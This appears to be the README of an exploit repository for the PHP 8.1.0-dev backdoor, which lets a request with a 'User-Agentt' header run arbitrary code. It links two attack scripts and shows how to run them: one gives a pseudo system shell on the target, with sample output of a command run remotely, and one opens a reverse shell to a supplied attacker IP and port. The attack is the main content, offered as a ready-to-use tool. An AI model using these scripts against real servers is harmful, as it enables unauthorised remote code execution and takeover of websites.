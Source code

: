 # PHP 8.1.0-dev Backdoor Remote Code Execution
_PHP 8.1.0-dev Backdoor System Shell Script_

![docs/logo_php81.png](docs/logo_php81.png "docs/logo_php81.png")

PHP verion 8.1.0-dev was released with a backdoor on March 28th 2021, but the backdoor was quickly discovered and removed. If this version of PHP runs on a server, an attacker can execute arbitrary code by sending the User-Agentt header.   

The original code was restored after the issue was discovered, but then tampered with a second time. The breach would have created a backdoor in any websites that ran the compromised version of PHP, enabling hackers to perform remote code execution on the site.

_Read full article: https://flast101.github.io/php-8.1.0-dev-backdoor-rce/_


* * * 

## POC Script

This short exploit script [backdoor_php_8.1.0-dev.py](https://github.com/flast101/php-8.1.0-dev-backdoor-rce/blob/main/backdoor_php_8.1.0-dev.py) uses the backdoor to provide a pseudo system shell on the host.

It has the number [49933](https://www.exploit-db.com/exploits/49933) on [Exploit DB](https://www.exploit-db.com/exploits/49933).   

- **Exploit Title:** PHP 8.1.0-dev Backdoor Remote Code Execution    
- **Date:** 23 may 2021   
- **Exploit Author:** flast101   
- **Vendor Homepage:** [https://www.php.net/](https://www.php.net/)    
- **Software Link:** [https://github.com/vulhub/vulhub/tree/master/php/8.1-backdoor](https://github.com/vulhub/vulhub/tree/master/php/8.1-backdoor)            
- **Tested on version:** 8.1.0-dev    
- **CVE** : N/A    
- **Vulnerability references**:    
[https://github.com/php/php-src/commit/2b0f239b211c7544ebc7a4cd2c977a5b7a11ed8a](https://github.com/php/php-src/commit/2b0f239b211c7544ebc7a4cd2c977a5b7a11ed8a)    
[https://github.com/vulhub/vulhub/blob/master/php/8.1-backdoor/README.zh-cn.md](https://github.com/vulhub/vulhub/blob/master/php/8.1-backdoor/README.zh-cn.md)    



Usage:


```
┌──(user㉿kali)-[~/Documents]
└─$ python3 backdoor_php_8.1.0-dev.py
  
Enter the host url:
http://a.b.c.d

Interactive shell is opened on http://http://a.b.c.d 
Can't acces tty; job crontol turned off.
$ id
uid=1000(user) gid=1000(user) groups=1000(user)
```

* * * 

## Reverse Shell    

This short exploit script [revshell_php_8.1.0-dev.py](https://github.com/flast101/php-8.1.0-dev-backdoor-rce/blob/main/revshell_php_8.1.0-dev.py) gives a reverse shell on target.


Usage:


```
┌──(user㉿kali)-[~/Documents]
└─$ python3 revshell_php_8.1.0-dev.py <target URL> <attacker IP> <attacker PORT>
```

![docs/revshell-script.png](docs/revshell-script.png "docs/revshell-script.png")


